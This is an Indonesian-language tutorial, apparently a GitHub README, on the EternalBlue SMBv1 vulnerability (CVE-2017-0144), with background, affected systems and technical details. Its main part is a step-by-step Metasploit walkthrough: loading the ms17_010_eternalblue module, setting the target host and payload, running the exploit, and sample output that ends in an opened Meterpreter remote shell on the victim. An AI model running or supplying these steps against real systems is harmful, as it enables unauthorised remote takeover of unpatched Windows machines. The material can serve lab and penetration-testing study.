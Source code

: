 # EternalBlue

## A. Apa itu EternalBlue?

[EternalBlue]() adalah exploit yang menargetkan kerentanan di Server Message Block version 1 (SMBv1) pada sistem operasi Windows. Kerentanan ini terdaftar dengan ID `CVE-2017-0144` dan ditemukan oleh [NSA (National Security Agency)](https://www.nsa.gov/), lalu bocor ke publik oleh kelompok hacker bernama [Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers).

Kerentanan ini memungkinkan Remote Code Execution (RCE), artinya penyerang bisa mengeksekusi kode berbahaya dari jarak jauh tanpa autentikasi, hanya dengan mengirimkan paket SMB berbahaya ke port `445`.

> EternalBlue merupakan exploit yang digunakan dalam serangan besar seperti `WannaCry` dan `NotPetya`.

## B. Detail Teknis
- CVE ID: `CVE-2017-0144`
- Tanggal Rilis: `14 Maret 2017`
- Tipe: Remote Code Execution (RCE)
- Protokol: `SMBv1`
- Komponen: `srv.sys`
- Platform: `Windows XP` hingga `Windows Server 2012 R2` (termasuk `Windows 7` dan `8`)
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `8.1` (Tinggi)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `EternalBlue`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit EternalBlue:

   ```
   msf6 > use exploit/windows/smb/ms17_010_eternalblue
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 445
   msf6 > set VERIFY_ARCH true
   msf6 > set VERIFY_TARGET true
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] 192.168.1.50:445 - Starting non-paged pool grooming
   [*] 192.168.1.50:445 - Sending start free hole packet.
   [+] 192.168.1.50:445 - Sending SMBv2 buffers
   [*] 192.168.1.50:445 - Sending end free hole packet.
   [+] 192.168.1.50:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
   [*] 192.168.1.50:445 - Sending final SMBv2 buffers.
   [*] 192.168.1.50:445 - Sending last fragment of exploit packet!
   [*] 192.168.1.50:445 - Making :eb_trans2_exploit packet
   [*] 192.168.1.50:445 - Receiving response from exploit packet
   [+] 192.168.1.50:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
   [*] 192.168.1.50:445 - Sending egg to corrupted connection.
   [*] 192.168.1.50:445 - Triggering free of corrupted buffer.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 5 opened (192.168.1.42:4444 -> 192.168.1.50:49159) at 2025-05-15 20:25:57 +0700
   [+] 192.168.1.50:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.50:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.50:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.
